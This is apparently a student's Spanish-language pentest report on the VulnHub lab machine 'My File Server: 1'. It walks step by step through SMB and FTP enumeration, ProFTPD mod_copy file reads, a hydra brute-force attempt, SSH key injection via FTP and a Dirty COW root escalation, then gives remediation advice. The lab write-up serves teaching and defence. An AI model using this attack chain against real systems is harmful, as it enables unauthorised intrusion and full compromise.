Red Team Report: Pentesting de My File Server 1
Pentesting de caja negra sobre un servidor de archivos simulado: de una contraseña expuesta a control total como root
Introducción
Esta actividad documenta un ejercicio de Red Team (pentesting ofensivo) realizado sobre “My File Server: 1”, una máquina virtual de VulnHub intencionalmente vulnerable que simula un servidor de archivos corporativo. El objetivo fue evaluar, bajo un modelo de caja negra, el nivel de exposición del sistema ante un atacante externo sin credenciales previas, siguiendo una metodología formal de principio a fin: reconocimiento, enumeración, explotación, escalada de privilegios y documentación del impacto.
Resumen ejecutivo
La evaluación concluyó con el compromiso total del sistema: se obtuvo acceso como administrador (root), el nivel máximo de privilegios posible. Partiendo únicamente de la conexión a la red y sin credenciales previas, fue posible tomar control absoluto del servidor, acceder a la totalidad de los archivos almacenados y detener el servicio por completo.
El vector de acceso inicial fue especialmente grave por su simplicidad: el servidor publicaba credenciales válidas en texto plano en su propio sitio web, accesibles para cualquier visitante. Esa credencial reutilizada permitió el ingreso al sistema, y una versión desactualizada del kernel permitió escalar privilegios hasta root. El ejercicio evidencia que una sola mala práctica puede anular todas las demás defensas del sistema.
| Severidad | Cantidad |
|---|---|
| Críticos | 2 |
| Altos | 2 |
| Medios | 1 |
| Bajos | 1 |
Alcance
Límites de la evaluación: qué activos se incluyeron, qué acciones estaban autorizadas y bajo qué condiciones se realizó la prueba.
Objetivos dentro del alcance
| Parámetro | Valor |
|---|---|
| Máquina objetivo | My File Server: 1 (VM VulnHub en VirtualBox) |
| Dirección IP objetivo | 10.255.66.88 → 192.168.1.248 (cambió por reconfiguración de red) |
| IP del atacante (Kali) | 10.255.66.204 / 192.168.1.x |
| Segmento de red | Red aislada de VirtualBox (misma red para atacante y objetivo) |
| Tipo de prueba | Caja negra (Black Box) — sin credenciales previas |
| Fecha / ventana | 01/10/2026 |
Fuera del alcance
- Ataques de denegación de servicio (DoS/DDoS) sobre la infraestructura.
- Ingeniería social o phishing a usuarios reales.
- Cualquier sistema, host o red distinto a la máquina objetivo autorizada.
Reglas de enfrentamiento
- La prueba se realizó únicamente en un laboratorio virtual aislado, sin conexión a redes productivas.
- Todas las actividades ofensivas se ejecutaron sobre un sistema intencionalmente vulnerable, diseñado para fines educativos.
- No se manipuló ni exfiltró información de terceros; los datos son ficticios y propios del laboratorio.
Metodología aplicada
La evaluación siguió una metodología formal alineada con el estándar de la industria PTES (Penetration Testing Execution Standard) y las guías de OWASP, garantizando un proceso reproducible, sistemático y trazable.
- Reconocimiento: descubrimiento del host objetivo dentro de la red y recolección de información inicial.
- Enumeración: identificación de puertos, servicios, versiones y vectores de ataque potenciales.
- Explotación: aprovechamiento de una vulnerabilidad para obtener acceso al sistema.
- Escalada de privilegios: elevación de permisos hasta obtener control total (root).
- Análisis de impacto y documentación: evaluación del riesgo según el modelo CIA y elaboración del informe.
Herramientas utilizadas
| Categoría | Herramienta(s) |
|---|---|
| Virtualización | Oracle VirtualBox |
| Sistema atacante | Kali Linux |
| Descubrimiento de red | netdiscover, nmap (-sn) |
| Escaneo / enumeración | nmap, whatweb, gobuster, enum4linux, smbclient, showmount |
| Explotación | netcat (nc), Metasploit, hydra, ftp, ssh, curl |
| Post-explotación | comandos nativos de Linux, gcc, exploit Dirty COW (40616.c) |
Fase de reconocimiento
Se identificó la dirección IP de la máquina objetivo dentro del segmento de red del laboratorio y se verificó su disponibilidad.
Descubrimiento del host
Barrido de la red para localizar el host objetivo, identificado por su dirección MAC (prefijo 08:00:27, propio de VirtualBox):
# Descubrimiento de hosts activos en la red del laboratorio
sudo netdiscover -r <segmento>/24

Con base en el barrido se identificó la IP de la máquina objetivo (inicialmente 10.255.66.88 y, tras reconfigurar la red, 192.168.1.248).
Verificación de conectividad
ping -c 3 <IP_objetivo>

Fase de enumeración
Una vez ubicado el objetivo, se enumeraron los puertos abiertos, los servicios en ejecución y sus versiones.
Escaneo de puertos y servicios
# Escaneo completo de puertos con detección de versiones y scripts
nmap -sC -sV -p- -T4 <IP_objetivo> -oN nmap_completo.txt

Análisis de servicios
| Puerto | Servicio | Versión |
|---|---|---|
| 21/tcp | ftp | vsftpd 3.0.2 |
| 22/tcp | ssh | OpenSSH 7.4 (protocolo 2.0) |
| 80/tcp | http | Apache httpd 2.4.6 (CentOS) |
| 111/tcp | rpcbind | 2-4 (RPC #100000) |
| 445/tcp | netbios-ssn | Samba smbd 3.X - 4.X |
| 2049/tcp | nfs_acl | 3 (RPC #100227) — NFS |
| 2121/tcp | ftp | ProFTPD 1.3.5 |
| 20048/tcp | mountd | 1-3 (RPC #100005) |
El sistema se comporta como un servidor de archivos: expone Samba (445) y NFS (2049/20048), además
de dos servicios FTP distintos y un servidor web. Dos elementos destacaron como superficie de
ataque prioritaria: Samba con acceso anónimo, y sobre todo ProFTPD 1.3.5 en el
puerto 2121, una versión históricamente vulnerable (CVE-2015-3306).
Enumeración del servicio SMB
# Servicio web
whatweb http://<IP>
# Recursos compartidos (SMB)
enum4linux -a <IP>
smbclient -L //<IP>/ -N

Se confirmó que el servidor permite sesiones anónimas (usuario y contraseña vacíos).
A partir de esa sesión se enumeraron los recursos compartidos: print$,
smbdata, smbuser e IPC$. De estos, smbdata
resultó accesible y legible de forma anónima, mientras que print$ y
smbuser denegaron el acceso.
Mediante RID cycling se identificó la cuenta local smbuser y una política de
contraseñas débil (complejidad deshabilitada, longitud mínima de 5 caracteres). El hallazgo más
relevante de esta fase es la exposición anónima del recurso smbdata, aprovechada en
la fase de explotación.
Fase de explotación
Por cada servicio expuesto se formuló una hipótesis de ataque, se probó y, según el resultado, se decidió continuar o pivotar hacia otro vector. A continuación se documenta ese proceso de razonamiento completo.
Análisis de vectores
Recurso compartido SMB anónimo
Hipótesis: siendo un “servidor de archivos”, alguna carpeta compartida podría contener
credenciales. Se descargó todo el contenido de smbdata de forma anónima:
smbclient //<IP>/smbdata -N
recurse ON
prompt OFF
mget *

El recurso exponía los registros del sistema (/var/log) —una filtración de información en sí misma—, así que se buscaron credenciales dentro de los logs:
grep -iE "invalid user|password|smbuser" secure messages xferlog

Resultado: los logs confirmaban al usuario smbuser y accesos de root, pero ninguna contraseña en texto plano. Pista insuficiente.
Registros de auditoría e instalación
Se intentó decodificar el registro de auditoría (audit.log) en busca de pulsaciones de teclado, y se revisó la carpeta de instalación (kickstart) en busca de hashes de root:
grep -oP '(?<=type=)\w+' audit.log | sort | uniq -c
grep -riE "rootpw|iscrypted|\$6\$|\$1\$" .

Resultado: sin registros TTY ni hashes de contraseña. Se agotó la vía de los registros.


ProFTPD 1.3.5 y mod_copy (CVE-2015-3306)
ProFTPD 1.3.5 en el puerto 2121 es vulnerable a un fallo en mod_copy que permite
copiar archivos sin autenticación mediante SITE CPFR / SITE CPTO.
Hipótesis: si se podía escribir en el directorio web, se podría colocar un webshell.
nc <IP> 2121
site cpfr /etc/passwd # 350 ready -> la LECTURA funciona
site cpto /var/www/html/x.txt # 550 Permission denied
site cpto /var/log/test.txt # 550 Permission deniedResultado: se podían leer archivos arbitrarios sin autenticación (hallazgo real), pero el proceso corre sin privilegios de escritura. Se documentó como vulnerabilidad, pero se descartó como vía de acceso.
Fuerza bruta de credenciales
hydra -l smbuser -P /usr/share/wordlists/rockyou.txt ftp://<IP> -t 4

Resultado: el servicio limitaba la velocidad a ~27 intentos por minuto (miles de horas estimadas). Se abortó para no perder tiempo.
Shellshock en CGI (CVE-2014-6271)
gobuster dir -u http://<IP>/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,cgi,pl,pyResultado: no existía ningún script CGI ejecutable; el vector no era aplicable.
Conclusión del análisis: tras descartar cuatro vectores técnicos, se volvió a un principio básico del pentesting —revisar lo más simple primero— e inspeccionar a fondo el contenido del servicio web. Ahí estaba la vía de entrada real.
Vulnerabilidad explotada
Nombre: Exposición de credenciales en el servicio web (Sensitive Information
Disclosure). Servicio afectado: Apache 2.4.6 en el puerto 80. El servidor publica un
archivo accesible públicamente con credenciales válidas en texto plano del usuario
smbuser: una mala práctica elemental pero crítica, que vuelve irrelevantes todas las
demás protecciones.
Procedimiento de explotación
Paso 1 — Obtención de la credencial desde el servicio web:
curl http://<IP>/readme.txtEsto expuso la credencial en texto plano — usuario: smbuser / contraseña: rootroot1.


Paso 2 — Acceso vía SSH. El servidor SSH no admite autenticación por contraseña (solo publickey), por lo que se reutilizó la credencial para iniciar sesión en el FTP e inyectar una llave pública propia:
ssh-keygen -f mykey # generar par de llaves
ftp <IP> # login: smbuser / rootroot1
mkdir .ssh
cd .ssh
put mykey.pub authorized_keys
ssh -i mykey smbuser@<IP> # acceso con la llave

Evidencia de acceso obtenido
whoami # smbuser
id
hostname # fileserver

Escalada de privilegios
Con acceso inicial como smbuser, el objetivo fue elevar privilegios hasta root: primero reconocer el entorno, luego explotar el vector identificado.
Reconocimiento post-explotación
sudo -l # permisos sudo del usuario
find / -perm -4000 -type f 2>/dev/null # binarios con SUID
uname -a # versión del kernel
cat /etc/redhat-release # versión del sistema operativo

El comando uname -a reveló un kernel Linux serie 3.10.x (propio de CentOS 7 original),
susceptible a una de las vulnerabilidades más conocidas de Linux.
Vulnerabilidad identificada
Dirty COW (Copy-On-Write) — CVE-2016-5195. Una condición de carrera en el subsistema de memoria del kernel que permite a un usuario sin privilegios escribir en archivos de solo lectura mapeados en memoria, posibilitando modificar archivos críticos del sistema y obtener privilegios de root.
Procedimiento de explotación
Paso 1 — Obtención del exploit (40616.c, Exploit-DB):
searchsploit -m 40616Paso 2 — Transferencia a la víctima reutilizando la llave SSH:
scp -i mykey 40616.c smbuser@<IP>:/tmp/Paso 3 — Compilación y ejecución. El exploit aprovecha la condición de carrera para modificar /etc/passwd y otorgar una shell de superusuario:
cd /tmp
gcc 40616.c -o raj -pthread
./raj

Confirmación del compromiso total
whoami # root
id # uid=0(root)
cat /root/proof.txt

Con la obtención de privilegios de root se completó la cadena de ataque: desde un acceso anónimo inicial hasta el control absoluto del sistema operativo.
Análisis de impacto (modelo CIA)
Al haberse obtenido privilegios de root, los tres pilares de la seguridad de la información se ven comprometidos en su máximo nivel.
| Pilar | Nivel | Justificación |
|---|---|---|
| Confidencialidad | Alto | Con root se puede leer la totalidad de los archivos del servidor, incluidos datos de usuarios, credenciales (/etc/shadow) y toda la documentación almacenada. |
| Integridad | Alto | Como root es posible crear, modificar o eliminar cualquier archivo o configuración sin restricción. |
| Disponibilidad | Alto | El control total permite detener servicios, cifrar o borrar la información (ransomware) o apagar el servidor. |
Escenario de impacto empresarial
Si “My File Server” fuera un servidor corporativo real, un atacante sin credenciales podría apoderarse de toda la documentación de la organización —contratos, información financiera, datos de clientes y empleados, propiedad intelectual—, alterarla o destruirla, desplegar ransomware, o usar el servidor como punto de pivote hacia el resto de la red interna. Las consecuencias incluirían pérdidas económicas directas, sanciones legales por fuga de datos personales y un daño reputacional difícil de revertir. Un único fallo de configuración —una contraseña expuesta— bastaría para desencadenar todo este escenario.
Recomendaciones técnicas
Prioridad alta (remediar de inmediato)
- Eliminar las credenciales expuestas en el servidor web (F-03): retirar el archivo que publica la contraseña y rotar la credencial comprometida de smbuser.
- Actualizar el kernel y el sistema operativo (F-06): aplicar los parches que corrigen Dirty COW y migrar a una versión soportada de CentOS.
- Actualizar ProFTPD (F-02): migrar a una versión ≥ 1.3.5a o deshabilitar mod_copy.
Prioridad media (corto plazo)
- Deshabilitar el acceso anónimo en Samba y NFS (F-01): exigir autenticación y no exponer /var/log a través de los recursos compartidos.
- Fortalecer la política de contraseñas (F-05): habilitar complejidad, longitud mínima de 12+ caracteres y bloqueo tras intentos fallidos.
- Asegurar la configuración SSH (F-04): mantener deshabilitada la autenticación por contraseña y revisar permisos de los directorios de usuario.
Prioridad baja / buenas prácticas
- Aplicar el principio de mínimo privilegio en usuarios y servicios.
- Mantener el sistema y todos los servicios actualizados con los últimos parches.
- Reducir la superficie de ataque deshabilitando servicios innecesarios (p. ej. uno de los dos FTP).
- Implementar monitoreo y registro centralizado para detectar accesos anónimos y actividad sospechosa.
Tabla de hallazgos
Resumen consolidado de las vulnerabilidades identificadas, ordenadas por severidad.
| ID | Vulnerabilidad | Severidad | Impacto | Recomendación |
|---|---|---|---|---|
| F-03 | Credenciales en texto plano expuestas en el servidor web | Crítica | Acceso inicial al sistema (SSH) | Retirar el archivo y rotar la credencial |
| F-06 | Kernel desactualizado vulnerable a Dirty COW (CVE-2016-5195) | Crítica | Escalada a root / compromiso total | Actualizar kernel y SO |
| F-01 | Recurso SMB "smbdata" accesible de forma anónima (exposición de /var/log) | Alta | Fuga de información del sistema | Deshabilitar acceso anónimo en Samba |
| F-02 | ProFTPD 1.3.5 mod_copy — lectura de archivos sin autenticación (CVE-2015-3306) | Alta | Lectura de archivos arbitrarios | Actualizar ProFTPD / deshabilitar mod_copy |
| F-04 | Inyección de llave SSH vía FTP con credencial reutilizada | Media | Persistencia de acceso | Revisar permisos de /home y del FTP |
| F-05 | Política de contraseñas débil (sin complejidad, mín. 5 caracteres) | Baja | Facilita ataques de credenciales | Endurecer la política de contraseñas |
Severidad según CVSS: Crítico (9.0–10), Alto (7.0–8.9), Medio (4.0–6.9), Bajo (0.1–3.9).
Aprendizajes obtenidos
- Practiqué una metodología de pentesting completa y trazable (PTES/OWASP), documentando cada hipótesis, prueba y resultado, incluidos los vectores descartados.
- Comprendí cómo una sola mala práctica —una credencial expuesta— puede anular controles de seguridad aparentemente sólidos (política de contraseñas, SSH sin contraseña).
- Reforcé el flujo de post-explotación: de un acceso con privilegios limitados a la escalada total aprovechando una vulnerabilidad de kernel conocida (Dirty COW).
Conclusión
La evaluación demuestra que “My File Server: 1” no es seguro: presenta un nivel de riesgo CRÍTICO, al permitir que un atacante externo y sin credenciales previas logre el compromiso total del sistema hasta privilegios de root. El hallazgo más grave, por su gravedad y por lo evitable que era, fue la exposición de credenciales en texto plano en el sitio web, que anuló por completo el resto de las defensas. El ejercicio evidencia la importancia de la defensa en profundidad: ninguna medida aislada es suficiente, y basta un único eslabón débil para comprometer toda la cadena.